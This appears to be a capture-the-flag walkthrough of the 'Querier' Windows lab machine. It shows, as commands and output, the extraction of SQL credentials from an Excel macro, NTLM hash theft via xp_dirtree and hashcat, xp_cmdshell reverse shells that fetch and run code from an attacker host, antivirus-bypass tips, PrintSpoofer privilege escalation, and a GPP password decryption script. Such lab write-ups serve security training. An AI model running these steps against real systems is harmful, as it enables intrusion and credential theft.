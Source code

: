 ```yaml
---
sort : 1
---
```


# Querier

```
PORT        STATE   SERVICE         VERSION
135/tcp     open    msrpc           Microsoft Windows RPC
139/tcp     open    netbios-ssn     Microsoft Windows netbios-ssn
445/tcp     open    microsoft-ds?
1433/tcp    open    ms-sql-s        Microsoft SQL Server 2017 14.00.1000.00; RTM
5985/tcp    open    wsman
47001/tcp   open    winrm
5985/tcp    open    http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp   open    http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
```


```bash
$ smbclient -N -L \\\\IP

$ smbclient -N \\\\IP\ShareName

smb> get File.xlsm

# you can unzip the xlsm files !!!!!! 
$ unzip File.xlsm

# macros usually stored at xl/vbaProject.bin
$ strings xl/*.bin

# OR !! 
$ olevba File.xlsm 
# VBA MACRO ThisWorkbook.cls 
# in file: xl/vbaProject.bin - OLE stream: 'VBA/ThisWorkbook'
# - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

# ' macro to pull data for client volume reports
# '
# ' further testing required

# Private Sub Connect()

# Dim conn As ADODB.Connection
# Dim rs As ADODB.Recordset

# Set conn = New ADODB.Connection
# conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
# conn.ConnectionTimeout = 10
# conn.Open

# If conn.State = adStateOpen Then

#   ' MsgBox "connection successful"
 
#   'Set rs = conn.Execute("SELECT * @@version;")
#   Set rs = conn.Execute("SELECT * FROM volume;")
#   Sheets(1).Range("A1").CopyFromRecordset rs
#   rs.Close

# End If

# End Sub
# -------------------------------------------------------------------------------
# VBA MACRO Sheet1.cls 
# in file: xl/vbaProject.bin - OLE stream: 'VBA/Sheet1'
# - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
# (empty macro)
# +----------+--------------------+---------------------------------------------+
# |Type      |Keyword             |Description                                  |
# +----------+--------------------+---------------------------------------------+
# |Suspicious|Open                |May open a file                              |
# |Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
# |          |                    |used to obfuscate strings (option --decode to|
# |          |                    |see all)                                     |
# +----------+--------------------+---------------------------------------------+
```

the user is "Reporting"
it's password is "PcwTWTHRwryjc$c6"

## Connecting to MSSQL DB

```bash
$ impacket-mssqlclient USERNAME:'PASSWORD'@IP -windows-auth

$ impacket-mssqlclient Reporting:'PcwTWTHRwryjc$c6'@IP -windows-auth
# [-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.

# you should find a user with SA privilege
SQL> select IS_SRVROLEMEMBER ('sysadmin')
# ------   
#  0 

# there isn't any !! 

# we can steal hashes of the SQL service account by using xp_dirtree or xp_fileexist.


# and on another terminal 
$ impacket-smbserver share-kali . -smb2support

# then back to impacket-mssqlclient
SQL> xp_dirtree '\\IP_tun0\share-kali\any.txt'

# look at the smb-server you ran, this will show the NTLM hash of the user !! 

# [*] User QUERIER\mssql-svc authenticated successfully
# [*] mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:f439c56c09a064c19b40fee71273d309:01010000000000000097f8fed4d4d90104f8ab380c1da0d80000000001001000630048004e006500570042005900520003001000630048004e0065005700420059005200020010004e0050005800580067004d006a004100040010004e0050005800580067004d006a004100070008000097f8fed4d4d90106000400020000000800300030000000000000000000000000300000788328683007061b88c05e4481a96893d7adb2d4d910c47adf66d466f8b6f5530a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003600000000000000000000000000
# [*] Connecting Share(1:IPC$)
# [*] Connecting Share(2:share-kali)
# [*] AUTHENTICATE_MESSAGE (\,QUERIER)
# [*] User QUERIER\ authenticated successfully
# [*] :::00::aaaaaaaaaaaaaaaa


$ echo "mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:59e20e11c6e191c8ec687d9227d6f074:0101000000000000002f2676c5d4d90181d517003f90cf7e000000000100100041007a004800770071007700410079000300100041007a00480077007100770041007900020010007700580070004b0057004e004b004900040010007700580070004b0057004e004b00490007000800002f2676c5d4d90106000400020000000800300030000000000000000000000000300000788328683007061b88c05e4481a96893d7adb2d4d910c47adf66d466f8b6f5530a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003600000000000000000000000000" > hash

$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt # corporate568

$ impacket-mssqlclient mssql-svc:'corporate568'@IP -windows-auth
SQL> select IS_SRVROLEMEMBER ('sysadmin')
# ------   
#  1 

SQL> enable_xp_cmdshell # success !! 
SQL> xp_cmdshell "type ..\..\Users\mssql-svc\Desktop\user.txt"

# to get a reverse shell, and bypass the AV 
# install nc64.exe from github https://github.com/int0x33/nc.exe/
# download nc64.exe on the smb-server on the attacker machine.

SQL> xp_cmdshell "copy \\IP_tun0\share-kali\nc64.exe C:\Users\Public\nc64.exe"

# why we copied it to the Public folder ..... cuz it's mostly writable !! 

$ nc -lnvp 1234

SQL> xp_cmdshell "C:\Users\Public\nc64.exe -e cmd.exe IP_tun0 1234" 

C:\Windows\system32> # Good luck

C:\Windows\system32> whoami /all

C:\Windows\system32> whoami /priv
# PRIVILEGES INFORMATION
# ----------------------

# Privilege Name                Description                               State   
# ============================= ========================================= ========
# SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
# SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
# SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
# SeImpersonatePrivilege        Impersonate a client after authentication Enabled   ==> this always can be exploited 
# SeCreateGlobalPrivilege       Create global objects                     Enabled 
# SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### nishang reverse shell 

> https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

```tip
since Invoke-PowerShellTcp.ps1 is a module, running the reverse shell in one line could not work, so it's better to add the function you wanna call at the end of the module so you can run it directly !!

.EXAMPLE - add this line at the end

Invoke-PowerShellTcp -Reverse -IPAddress IP_tun0 -Port 4444
```

on 3 terminals

```bash
$ python3 -m http.server 4444
```

```bash
$ nc -lnvp 1234
```

```bash
SQL> xp_cmdshell "powershell -c iex(iwr http://IP_tun0:4444/shell.ps1)"
```

```note
some times due to windows firewall, you need to make your netcat listen on port 80 or 443 
```

### hoaxshell reverse shell

### reverse shell generator reverse shell


```tip
pick the method that bypasses the AV  
```

<!-- ## ntlm relay

## what is mssql-svc


type of windows accounts: 
* user aacount 
* machine account
* service account ======> mostly it has the SeImpersonatePrivilege enabled !! 

## SE impersonate

## access tockens exploits hack

### what are Access Tokens

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/access-tokens 

Each user logged onto the system holds an access token with security information for that logon session. The system creates an access token when the user logs on. Every process executed on behalf of the user has a copy of the access token. The token identifies the user, the user's groups, and the user's privileges. A token also contains a logon SID (Security Identifier) that identifies the current logon session.

When a local administrator logins, two access tokens are created: One with admin rights and other one with normal rights. By default, when this user executes a process the one with regular (non-administrator) rights is used. When this user tries to execute anything as administrator ("Run as Administrator" for example) the UAC will be used to ask for permission.
If you want to learn more about the UAC read this page. -->

```bash
$ nc -lnvp 1235
```

```powershell
C:\Windows\system32> PrintSpoofer64.exe -c "rev.exe IP_tun0 1235 -e cmd.exe"
```

```tip
PrintSpoofer :: used mostly when you have a service account

JuicyPotato  :: used mostly when you have a user account
```


## GPP vulnerability privilege escalation

```powershell
# After running Powerup

PS> cat ​'C:\ProgramData\Microsoft\Group
Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\G
roups\Groups.xml'
```

To decrypt the Administrator password

```python
from Crypto.Cipher import AES
from base64 import b64decode

cpassword = "CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ"

# From MSDN: http://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be%28v=PROT.13%29 #endNote2

key = ​"""
4e 99 06 e8 fc b6 6c c9 fa f4 93 10 62 0f fe e8
f4 96 e8 06 cc 05 79 90 20 9b 09 a4 33 b6 6c 1b
"""​.replace(​" "​,​""​).replace(​"\n"​,​""​).decode(​'hex'​)

# Add padding to the base64 string and decode it
cpassword += ​"="​ * ((4 - len(cpassword) % 4) % 4)
password = b64decode(cpassword)

# Decrypt the password
o = AES.new(key, AES.MODE_CBC, ​"\x00"​ * 16).decrypt(password)

# Print it
print​ o[:-ord(o[-1])].decode(​'utf16'​)
```

Good luck ^^

```bash
$ python3 psexec.py Administrator:​'MyUnclesAreMarioAndLuigi!!1!'​@IP
```

























